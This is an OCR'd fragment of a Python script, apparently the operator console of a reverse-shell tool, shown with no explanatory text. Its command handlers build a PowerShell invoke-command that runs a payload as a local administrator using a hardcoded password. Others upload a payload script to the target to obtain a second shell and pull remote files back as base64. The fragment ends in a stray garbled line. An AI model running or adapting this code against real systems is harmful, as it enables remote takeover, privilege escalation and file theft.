 ```python
download_buffer += data[8:].replace('`n','\n')

else:

print(data[8:].replace('`n','\n'),end='')

if cmd[0:4].lower() == 'exit':

print("Exiting...")

sock.close()

return 0

if cmd[0:7] == 'SHOWUID':

print("UID: "+UID)

cmd = "echo OK"

if cmd[0:5] == 'ADMIN':

cmd = "$user = '.\\administrator'; $passwd = '1234test'; $secpswd = ConvertTo-SecureString $passwd -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $user, $secpswd; invoke-command -computername localhost -credential $credential -scriptblock { "+ payload(LHOST, UID) + " }"

if cmd[0:7] == 'DECODER':

with open("c.ps1", "wt") as f:

f.write(payload(LHOST, DECODER_UID))

f.close()

time.sleep(1)

httpupload(UID, "c.ps1", "c:\\sysadmscripts\\c.ps1")

sock.close()

time.sleep(1)

print("Waiting for decoder shell...")

main(LHOST, RHOST, DECODER_UID)

if cmd[0:8] == 'DOWNLOAD':

fullpath = cmd[9:].strip()

cmd = "[Convert]::ToBase64String([IO.File]::ReadAllBytes('"+fullpath+"'))"

DOWNLOAD_filename = fullpath.split('\\')[-1]

download_buffer = ""

if cmd[0:6] == 'UPLOAD':

(upload, local_path, remote_path) = shlex.split(cmd.strip(), posix=False)

httpupload(UID, local_path, remote_path, powershell=False)

```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"